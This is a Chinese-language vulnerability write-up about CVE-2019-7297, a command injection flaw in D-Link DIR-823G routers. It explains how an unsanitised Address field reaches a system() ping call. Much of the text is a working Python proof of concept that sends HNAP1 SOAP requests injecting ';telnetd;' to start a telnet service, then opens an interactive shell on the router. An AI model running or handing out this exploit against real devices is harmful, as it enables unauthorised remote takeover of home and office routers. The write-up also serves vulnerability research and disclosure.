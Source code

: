 # （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3382](https://www.zhihuifly.com/t/topic/3382)

# （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。

![image](img/6b1a5ebfd9ed8143ff5353b86dcdd079.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt 
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](img/bbd00b5d5875de0d5d0869f4e5d077ba.png)

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

headers = requests.utils.default_headers()

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/SetNetworkTomographySettings](http://purenetworks.com/HNAP1/SetNetworkTomographySettings)”’

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<SetNetworkTomographySettings xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

<Address>;telnetd;</Address>

<Number>4<Number>

<Size>4</Size>

</SetNetworkTomographySettings></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/GetNetworkTomographyResult](http://purenetworks.com/HNAP1/GetNetworkTomographyResult)”’

payload = ‘<?xml version=“1.0” encoding=“utf-8”?><soap:Envelope xmlns:xsi=“[http://www.w3.org/2001/XMLSchema-instance](http://www.w3.org/2001/XMLSchema-instance)” xmlns:xsd=“[http://www.w3.org/2001/XMLSchema](http://www.w3.org/2001/XMLSchema)” xmlns:soap=“[http://schemas.xmlsoap.org/soap/envelope/](http://schemas.xmlsoap.org/soap/envelope/)”>

<soap:Body>

<GetNetworkTomographyResult xmlns=“[http://purenetworks.com/HNAP1/](http://purenetworks.com/HNAP1/)”>

</GetNetworkTomographyResult></soap:Body></soap:Envelope>’

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```